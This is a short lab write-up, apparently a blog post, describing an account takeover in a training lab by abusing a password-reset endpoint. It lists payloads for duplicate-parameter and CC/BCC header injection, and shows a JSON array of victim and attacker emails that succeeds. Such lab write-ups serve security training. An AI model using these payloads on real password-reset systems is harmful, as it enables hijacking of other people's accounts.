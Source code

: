 ```yaml
---
title: "Account TakeOver Lab3"
tags:
    - Lab
    - Bepractical
date: "2024-06-20"
thumbnail: "/assets/img/thumbnail/labs.png"
bookmark: true
---
```

## Description

As usual, try logging in with `admin@bepractical.tech`.

Starting from the login page, we can sign in as in Lab 2, so I created a new account. Then, I played around with BurpSuite, trying various ideas learned from Lab 1 and Lab 2, but with no success. Let's go directly to the reset password function.

## Reset Password

<img src="/assets/img/bepractical/lab3/1.png" alt="reset password">

Turn on interception and click `send` to see the request.

<img src="/assets/img/bepractical/lab3/2.png" alt="request">

Notice the format used is JSON , while hunting take these notes 

```bash
when reset password 
GET /passwordreset
#Double parameter
- email=victim@xyz.tld&email=hacker@xyz.tld
- email=victim@xyz.tld,email=hacker@xyz.tld
- email=victim@xyz.tld&bcc:hacker@xyz.tld
- email=victim@xyz.tld%0a%0dcc:=hacker@xyz.tld
- email=victim@xyz.tld,hacker@xyz.tld
- email=victim@xyz.tld%20hacker@xyz.tld
- email=victim@xyz.tld|hacker@xyz.tld
- {"email":["victim@xyz.tld","hacker@xyz.tld"]}
```
The last one worked for me by entering both emails like this.

```bash
{
    "email":["admin@practical.tech",
          "730bbbfd32@emailcbox.pro" ]
}

```
<img src="/assets/img/bepractical/lab3/4.png" alt="request2">

press forward to see the response. it's a 200 ok 

<img src="/assets/img/bepractical/lab3/5.png" alt="request3">

now go to firefox 

<img src="/assets/img/bepractical/lab3/6.png" alt="admin">

Admin account .... Hacked gg
